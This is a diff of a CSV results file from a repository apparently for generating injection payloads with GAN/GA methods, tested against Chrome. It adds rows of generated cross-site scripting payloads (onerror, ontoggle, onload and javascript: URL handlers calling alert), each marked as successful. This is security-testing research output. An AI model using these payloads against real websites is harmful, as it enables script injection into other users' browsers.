

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_vec_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/result/gan_result_vec_chrome.csv
+++ b/result/gan_result_vec_chrome.csv
@@ -62 +62,5 @@ body_tag,"<svg onload='alert(""XSS6"")'><body onload='alert(""XSS3"");'><input t
 body_tag,"</style><input type='text' value='X' onchange='alert(""XSS7"")'><svg onload='alert(""XSS5"")'/>","</style><input type='text' value='XSS6' onfocus='alert(this.value);'><div onmouseover='alert(""XSS6"");'>","<embed src='javascript:alert(""XSS9"");'><body onload='alert(""XSS3"");'><input type='submit'>",Bingo
+body_tag,<video><source onerror='alert(1)'><video>,<video><source onerror='alert(1)'><source onerror='alert(1)'>,<video><source onerror='alert(1)'><video>,Bingo
+body_tag,<video><audio src='x' onerror='alert(1)'><video>,<details open='' ontoggle='alert(1)'><audio src='x' onerror='alert(1)'><source onerror='alert(1)'>,<video><source onerror='alert(1)'><video>,Bingo
+body_tag,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><details open='' ontoggle='alert(1)'>,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><details open='' ontoggle='alert(1)'>,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><video>,Bingo
+body_tag,<video><source onerror='alert(1)'><details open='' ontoggle='alert(1)'>,<details open='' ontoggle='alert(1)'><frame src='javascript:alert(1)'><video>,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><details open='' ontoggle='alert(1)'>,Bingo
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_chrome.csv, 9 other files.
